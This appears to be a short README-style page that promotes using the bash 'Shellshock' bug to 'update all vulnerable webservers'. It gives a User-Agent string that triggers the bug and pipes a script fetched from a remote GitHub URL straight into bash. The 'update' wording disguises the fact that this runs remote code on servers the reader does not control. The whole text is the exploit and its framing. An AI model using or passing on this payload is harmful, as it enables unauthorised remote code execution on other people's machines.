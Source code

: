 Thanks to the recent bash bug, we are able to update all vulnerable webservers. You just need to set your User Agent to the following.

User Agent:

\`() {.:;.}; curl -s https://raw.githubusercontent.com/spaceSub/simple-update/master/update.sh | bash\`
